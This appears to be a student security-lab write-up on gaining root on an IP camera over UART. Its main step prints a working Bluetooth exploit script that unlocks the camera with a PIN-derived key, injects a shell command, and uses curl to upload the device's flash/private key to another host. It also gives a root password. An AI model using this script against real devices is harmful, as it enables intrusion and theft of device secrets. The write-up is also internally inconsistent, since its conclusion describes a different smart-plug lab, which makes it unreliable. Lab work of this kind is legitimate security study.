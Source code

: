 # Research Group: Group A

## Laboratory Title: Exploiting an IP Camera

### Members:
- Ángel Vázquez
- Carolina Rodríguez
- Gabriel Figueroa
- Keishlyany Sanabria (Shadow)

## Lab Description:
### Objective and Goals:
##### Device Teardown
- Open the device
- Identify the chipset and their datasheet
- Find communication protocols used by different chips
- Analize System-on-Chip (SoC)
##### UART Pin Identification
- Find UART pads with the help of SoC pinouts
- Find UART pads/pins (pair of 4), which will provide the functionality for Transmit (Tx), Receive (Rx), GNG (Ground) and Vcc (Power)
- Find Tx, Rx, and Ground above the SoC
- Connect pins to Attify Badge and perform UART exploitation
##### Gain Root Access
- Find the baudrate of the device
- Interact over UART to obtain a root shell
- Find root password using the script and mac address
- Login to root user 

### Resources and Dependencies used:
##### Hardware:
- IP Camera
- Screwdriver kit
- Multimeter
- Attify Badge
- Jumper wires
- Micro USB Cable
##### Software:
- baudrate.py
- minicom


### Tasks (Lab Walkthrough):
##### Device Teardown (Setup):
1. Open up the device
2. Identify the various chipsets on the device (SoC, Network chip, Flash chip) 
3. Figure out their functionality, as well as locate their datasheets.
##### Pin Identification
1. Identify which pins correspond to the UART and see where the connection ends up. These pins are mostly assembled in groups of 3 or 4, and consist of connections for Rx, Tx, and Ground.
2. Perform a continuity test on the exposed pads 
##### Interacting with UART and Gain Root Shell Access
1. First, make sure that the camera board is properly connected to a power source, Attify Badge, and the breadboard (UART connection) to replace soldering
2. Once inside the Attify Virtual Machine, access the terminal and use the following commands in order to find the baudrate:

```
cd ~/tools/dev/tty*      ; lists the ttys available and make sure the badge is present

cd baudrate/             ; access the location of the baudrate.py script

sudo python baudrate.py  ; run the script, disconnect & connect the badge again
```


3. Press the **Up** arrow key to switch the preferred baudrate to 5500(?)
4. Let the script run; once you see readable data, hit **Ctrl+C** and wait for the script to ask you for the name you want to save the configuration with. Give it any name and hit **Enter**.
5. On a separate window, run the following script (```extract-private-key.py```) using the device mac address to get the needed password
```#extract-private-key.py
import hashlib
import base64
import asyncio

from bleak import BleakClient

# Pin code printed on the camera label
pincode = b"096641"

# The mac address of the IP camera to connect
mac_addr = "b0:c5:54:4b:8f:49"

def generate_cmd(cmd):
    return "P=;N={}&&({})&".format(pincode, cmd).encode()


def generate_unlock_command(device_name, pincode, challenge):
    hashit = device_name + pincode + challenge
    key = base64.b64encode(hashlib.md5(hashit).digest())[:16]
    return "M=0;K=".encode() + key


async def execute_cmd(client, cmdstr):
    cmd = generate_cmd(cmdstr)
    await client.write_gatt_char(
        "0000a201-0000-1000-8000-00805f9b34fb", cmd, response=True
    )


async def setup_wifi(client, essid, passwd):
    wifi_cfg = "M=0;I=" + essid + ";S=4;E=2;K=" + passwd
    await client.write_gatt_char(
        "0000a101-0000-1000-8000-00805f9b34fb", wifi_cfg.encode(), response=True
    )

    await client.write_gatt_char(
        "0000a102-0000-1000-8000-00805f9b34fb", "C=1".encode(), response=True
    )


async def main(mac_addr: str):
    async with BleakClient(mac_addr) as client:
        device_name = await client.read_gatt_char(
            "00002a00-0000-1000-8000-00805f9b34fb"
        )
        print("[+] Device name: ", device_name.decode())

        a001_data = await client.read_gatt_char("0000a001-0000-1000-8000-00805f9b34fb")
        M = a001_data.split(b";")[0].split(b"=")[1]
        C = a001_data.split(b";")[1].split(b"=")[1]

        if M == b"0":
            print("[+] Unlocked: Yes")
        else:
            print("[+] Unlocked: No")
            print("[*] Unlocking...")
            challenge = C
            print("[*] Challenge:", challenge.decode())

            unlock_cmd = generate_unlock_command(device_name, pincode, challenge)
            print("[*] Unlock command:", unlock_cmd.decode())

            await client.write_gatt_char(
                "0000a001-0000-1000-8000-00805f9b34fb", unlock_cmd, response=True
            )

            a001_data = await client.read_gatt_char(
                "0000a001-0000-1000-8000-00805f9b34fb"
            )
            M = a001_data.split(b";")[0].split(b"=")[1]

            if M != b"0":
                print("[!] Unlock failed")
                return
            else:
                print("[+] Successfully unlocked")

        print("[+] Setting up WiFi...")
        await setup_wifi(client, "acer", "11223344")

        print("[+] Press enter when camera is connected (status led:stable green)")
        input()

        print("[+] Exfiltrating private key")
        await execute_cmd(client, "curl -T /dev/mtd1ro http://10.42.0.1:8080")


loop = asyncio.get_event_loop()
loop.run_until_complete(main(mac_addr))
```

6. Enter the root login user and password (555718df)
7. Press ls to see all root files available


### Problems Encountered:
- Difficulty finding the correct datasheets for the chips.
- Difficulty finding the ```baudrate.py file```. Had to use the locate command to find the python file since a “no such file or directory exists” error popped up upon trying it for the first time.
- Device is not recognized by Computer. When looking for the entry names ttyUSB0 or ttyUSB1 to confirm if Attify Badge was connected, nothing was found, which meant it was not recognized.
- Port configuration made laptop crash and restart


### Conclusion:
-The research group (Group A) conducted a lab to exploit a Smart Plug. The objective of the lab was to reverse engineer the mobile application used to control the Smart Plug, capture and analyze its network traffic, identify the encryption key and type being used, and control the Smart Plug without using the mobile device. In conclusion, Group A was unable to complete the Exploiting a Smart Plug lab due to difficulties controlling the smart plug. The outdated Python script used to create a proxy server to redirect traffic from the plug to the group's system was not functioning properly, which prevented the group from controlling the plug. Despite attempts to work around the issue, the group was unable to overcome this obstacle within the timeframe of the lab.
